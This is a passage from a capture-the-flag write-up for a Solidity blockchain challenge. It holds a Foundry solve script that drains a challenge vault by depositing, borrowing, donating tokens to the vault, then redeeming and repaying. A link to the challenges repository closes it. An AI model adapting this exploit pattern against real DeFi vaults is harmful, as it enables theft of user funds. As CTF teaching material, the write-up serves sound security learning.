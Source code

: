 
The below is the exploit script:

```solidity
//SPDX-License-Identifier:MIT
pragma solidity ^0.8.20;

import {Script, console} from "forge-std/Script.sol";
import {Setup,Vault,LING} from "src/signin/Setup.sol";

contract Solve is Script {
    function run() public {
        vm.startBroadcast();
        Setup setup = Setup(address(0xdd154d7ff043F9DDb8029D888208fE780cC8D9b1));
        Vault vault=setup.vault();
        LING ling=setup.ling();
        setup.claim();
        ling.approve(address(vault),1000);
        vault.deposit(1000, msg.sender);
        vault.borrowAssets(1000);
        ling.transfer(address(vault),1000);
        vault.redeem(1000, msg.sender, msg.sender);
        ling.approve(address(vault),1010);
        vault.repayAssets(1000);
        setup.solve();
        console.log(setup.isSolved());
        vm.stopBroadcast();
    }
}
```

### Note
If you want to try this challenge locally, clone the [challenges repository](https://github.com/s4bot3ur/Blockchain-Challenges) and follow the [setup guide](https://github.com/s4bot3ur/Blockchain-Challenges/tree/main/EVM/2025). This setup is available only for 2025 challenge solutions. If you face any issues feel free to reach out on [discord](https://discord.com/users/666925625650446357) :)

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>